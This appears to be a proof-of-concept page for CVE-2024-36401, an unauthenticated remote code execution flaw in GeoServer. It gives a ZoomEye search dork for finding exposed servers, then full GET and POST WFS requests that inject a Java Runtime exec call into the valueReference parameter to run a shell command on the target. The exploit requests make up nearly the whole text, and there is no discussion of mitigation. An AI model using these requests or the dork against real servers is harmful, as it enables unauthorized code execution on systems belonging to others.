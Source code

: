 # GeoServer Unauthenticated Remote Code Execution (CVE-2024-36401)

## ZoomEye Dork

app:"GeoServer" 

Link: https://www.zoomeye.hk/searchResult/report?q=app%3A%22GeoServer%22



## POC

GET request POC

```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

POST request POC

```
POST /geoserver/wfs HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

